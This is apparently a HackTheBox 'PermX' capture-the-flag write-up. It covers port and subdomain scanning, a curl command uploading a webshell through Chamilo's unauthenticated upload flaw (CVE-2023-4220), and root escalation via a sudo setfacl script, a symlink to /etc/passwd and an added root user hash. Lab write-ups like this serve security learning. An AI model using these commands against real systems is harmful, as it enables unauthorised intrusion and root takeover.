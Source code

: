 --------------------

### CTF: HACKTHEBOX
### LAB: PERMX

--------------------

![image](https://github.com/user-attachments/assets/75d9e644-9cab-4a9c-9ad7-835f15977ac6)

--------------------

### RECONNAISSANCE

- Rustscan's output

       ❯ rustscan -a 10.10.11.23 -- -sC -sV
      .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
      | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
      | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
      `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
      The Modern Day Port Scanner.
      ________________________________________
      : https://discord.gg/GFrQsGy           :
      : https://github.com/RustScan/RustScan :
       --------------------------------------
      Nmap? More like slowmap.🐢
      
      [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
      [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
      [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
      Open 10.10.11.23:22
      Open 10.10.11.23:80
      [~] Starting Script(s)
      [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
      
      [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-03 10:18 EDT
      NSE: Loaded 156 scripts for scanning.
      NSE: Script Pre-scanning.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 10:18
      Completed NSE at 10:18, 0.00s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 10:18
      Completed NSE at 10:18, 0.00s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 10:18
      Completed NSE at 10:18, 0.00s elapsed
      Initiating Ping Scan at 10:18
      Scanning 10.10.11.23 [2 ports]
      Completed Ping Scan at 10:18, 0.21s elapsed (1 total hosts)
      Initiating Connect Scan at 10:18
      Scanning permx.htb (10.10.11.23) [2 ports]
      Discovered open port 80/tcp on 10.10.11.23
      Discovered open port 22/tcp on 10.10.11.23
      Completed Connect Scan at 10:18, 0.21s elapsed (2 total ports)
      Initiating Service scan at 10:18
      Scanning 2 services on permx.htb (10.10.11.23)
      Completed Service scan at 10:18, 6.81s elapsed (2 services on 1 host)
      NSE: Script scanning 10.10.11.23.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 10:18
      Completed NSE at 10:18, 7.61s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 10:18
      Completed NSE at 10:18, 3.17s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 10:18
      Completed NSE at 10:18, 0.00s elapsed
      Nmap scan report for permx.htb (10.10.11.23)
      Host is up, received conn-refused (0.21s latency).
      Scanned at 2024-09-03 10:18:10 EDT for 18s
      
      PORT   STATE SERVICE REASON  VERSION
      22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey: 
      |   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
      | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAyYzjPGuVga97Y5vl5BajgMpjiGqUWp23U2DO9Kij5AhK3lyZFq/rroiDu7zYpMTCkFAk0fICBScfnuLHi6NOI=
      |   256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
      |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP8A41tX6hHpQeDLNhKf2QuBM7kqwhIBXGZ4jiOsbYCI
      80/tcp open  http    syn-ack Apache httpd 2.4.52
      |_http-server-header: Apache/2.4.52 (Ubuntu)
      | http-methods: 
      |_  Supported Methods: POST OPTIONS HEAD GET
      |_http-title: eLEARNING
      Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
      
      NSE: Script Post-scanning.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 10:18
      Completed NSE at 10:18, 0.00s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 10:18
      Completed NSE at 10:18, 0.00s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 10:18
      Completed NSE at 10:18, 0.00s elapsed
      Read data files from: /usr/bin/../share/nmap
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 20.72 seconds

- Subdomain enumeration with ffuf spots `lms`,we don't need to check `www` it is just the normal `permx.htb` page

![image](https://github.com/user-attachments/assets/d0aa315e-6154-4454-902b-a92b7a6d86f5)

- Subdomain `lms.permx.htb` hosts a learning management portal `Chamilo`

![image](https://github.com/user-attachments/assets/41ce957a-202a-4200-861b-8ae530530ff5)

- Chamilo is vulnerable to unauthenticated file upload as explained in this [github repo](https://github.com/dollarboysushil/Chamilo-LMS-Unauthenticated-File-Upload-CVE-2023-4220)

--------------------------

### Exploiting Chamilo with curl

- Php page `/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported` allows us to upload any file type, we can upload a webshell
to execute commands

- I uploaded the file with curl

      ❯ curl -F "bigUploadFile=@<shell filename>" "http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported"
    The file has successfully been uploaded.%

- Access your web shell at route `/main/inc/lib/javascript/bigupload/files/[filename]`

![image](https://github.com/user-attachments/assets/96ad56c7-1103-4f1d-8139-609a243ac5e8)

- Shell access

![image](https://github.com/user-attachments/assets/6ce94f61-5a54-44cb-880b-7555fe3c87ee)
 
### USER MTZ

- I ran linpeas and discovered a password in a db config file. I was able to login to user `mtz` with the password

![image](https://github.com/user-attachments/assets/87932ed3-46d3-4532-88c6-c5d46198159c)

- User `mtz` access

![image](https://github.com/user-attachments/assets/ad7c7cca-a266-4708-8aa3-089ef80f3711)


### PRIVESC with SETFACL

- I ran `sudo -l` and noticed a rule that user `mtz` can run a sh script `/opt/acl.sh` as root without passwd

![image](https://github.com/user-attachments/assets/7f748f6b-1d7e-439f-8d01-d334b46c64a2)

### Acl.sh

- The script's usage syntax is `acl.sh [user] [perm] [file]`
- The target file must be in `/home/mtz/*` file directory and must not contain `..` to prevent path traversal.

      if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
        /usr/bin/echo "Access denied."
        exit 1
- Then,this code checks if it is a file

        # Check if the path is a file
      if [ ! -f "$target" ]; then
          /usr/bin/echo "Target must be a file."
          exit 1
      fi
- Then, it runs `setfacl` to grant a user specific permissions in respect to a file.

      /usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"

### Exploiting the ACL script

- We can exploit this by creating symbolic link of `/etc/passwd` in mtz's directory.After creating the symbolic link wiith write access to `/etc/passwd`,
we can edit and add a new user hash with root privileges.

![image](https://github.com/user-attachments/assets/57074117-d2e1-42fb-a2a7-8ee866fc06fd)

- We will copy this root hash to password to the passwd symbolic link,you can generate an hash with `openssl passwd [password]`.
This hash's password is `password123`.

      sensei:$1$1YY732V9$Irh.HtaGlscLmIz6SLQgM/:0:0:root:/root:/bin/bash

- Editing the passwd file

![image](https://github.com/user-attachments/assets/8e726103-03c1-490d-b623-d96d97c567dc)

- It reflects in `/etc/passwd`

![image](https://github.com/user-attachments/assets/93062d63-b64a-420f-9097-b24c94ce3bbb)

- Access to user `sensei`

![image](https://github.com/user-attachments/assets/d1769749-3965-4804-a021-3b0962f6ed38)

- Root

![image](https://github.com/user-attachments/assets/4150d4c0-7d05-4ee1-a0da-9153e2b2866a)

-----------------------



  



